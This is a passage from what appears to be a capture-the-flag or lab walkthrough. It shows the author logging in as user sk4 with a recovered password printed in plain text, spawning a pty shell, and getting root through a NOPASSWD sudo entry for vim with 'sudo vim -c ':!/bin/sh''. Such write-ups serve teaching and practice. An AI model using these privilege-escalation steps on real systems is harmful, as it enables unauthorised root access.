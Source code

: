 ## Shell as sk4
Now that we have credentials for user `sk4`, lets see if he can run any sudo command:

```
www-data@sk4-VM:/$ su sk4
su sk4
Password: KywZmnPWW6tTbW5w
python3 -c 'import pty; pty.spawn("/bin/bash")'
sk4@sk4-VM:/$ id
uid=1000(sk4) gid=1000(sk4) groups=1000(sk4),24(cdrom),30(dip),46(plugdev),118(lpadmin),129(sambashare)
sk4@sk4-VM:/$ sudo -l
Matching Defaults entries for sk4 on sk4-VM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sk4 may run the following commands on sk4-VM:
    (ALL) NOPASSWD: /usr/bin/vim
```
Yes!

## Privilege Escalation to Root
The user `sk4` can run vim as sudo. There is a very easy way to escape vim into a shell:

```
www-data@sk4-VM:/$ sudo vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```
And we are root!
![](images/untitled20.png)